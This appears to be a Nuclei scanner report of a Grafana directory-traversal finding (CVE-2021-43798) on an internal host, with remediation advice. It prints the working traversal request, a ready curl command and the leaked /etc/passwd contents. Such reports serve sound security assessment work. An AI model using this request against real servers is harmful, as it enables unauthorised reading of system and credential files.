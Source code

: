 ### Grafana v8.x Arbitrary File Read (CVE-2021-43798) found on http://192.168.164.181:3000
---
**Details**: **CVE-2021-43798**  matched at http://192.168.164.181:3000

**Protocol**: HTTP

**Full URL**: http://192.168.164.181:3000/public/plugins/alertlist/../../../../../../../../../../../../../../../../../../../etc/passwd

**Timestamp**: Thu Jun 2 10:12:37 +0100 BST 2022

**Template Information**

| Key | Value |
|---|---|
| Name | Grafana v8.x Arbitrary File Read |
| Authors | z0ne, dhiyaneshdk |
| Tags | cve, cve2021, grafana, lfi |
| Severity | high |
| Description | Grafana versions 8.0.0-beta1 through 8.3.0 are vulnerable to a local directory traversal, allowing access to local files. The vulnerable URL path is `<grafana_host_url>/public/plugins/NAME/`, where NAME is the plugin ID for any installed plugin. |
| Remediation | Upgrade to patched versions 8.0.7, 8.1.8, 8.2.7, or 8.3.1. |
| CVSS-Metrics | [CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N) |
| CWE-ID | [CWE-22](https://cwe.mitre.org/data/definitions/22.html) |
| CVE-ID | [CVE-2021-43798](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2021-43798) |
| CVSS-Score | 7.50 |

**Request**
```http
GET /public/plugins/alertlist/../../../../../../../../../../../../../../../../../../../etc/passwd HTTP/1.1
Host: 192.168.164.181:3000
User-Agent: Mozilla/5.0 (Windows NT 4.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/37.0.2049.0 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip


```

**Response**
```http
HTTP/1.1 200 OK
Connection: close
Content-Length: 1924
Accept-Ranges: bytes
Cache-Control: no-cache
Content-Type: text/plain; charset=utf-8
Date: Thu, 02 Jun 2022 09:12:37 GMT
Expires: -1
Last-Modified: Fri, 04 Feb 2022 09:20:05 GMT
Pragma: no-cache
X-Content-Type-Options: nosniff
X-Frame-Options: deny
X-Xss-Protection: 1; mode=block

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
grafana:x:113:117::/usr/share/grafana:/bin/false
prometheus:x:1000:1000::/home/prometheus:/bin/false
sysadmin:x:1001:1001::/home/sysadmin:/bin/sh

```

References: 
- https://github.com/grafana/grafana/security/advisories/ghsa-8pjx-jj86-j47p
- https://nosec.org/home/detail/4914.html
- https://github.com/jas502n/grafana-vulntips
- https://nvd.nist.gov/vuln/detail/cve-2021-43798

**CURL Command**
```
curl -X 'GET' -d '' -H 'Accept: */*' -H 'Accept-Language: en' -H 'User-Agent: Mozilla/5.0 (Windows NT 4.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/37.0.2049.0 Safari/537.36' 'http://192.168.164.181:3000/public/plugins/alertlist/../../../../../../../../../../../../../../../../../../../etc/passwd'
```
---
Generated by [Nuclei 2.7.1](https://github.com/projectdiscovery/nuclei)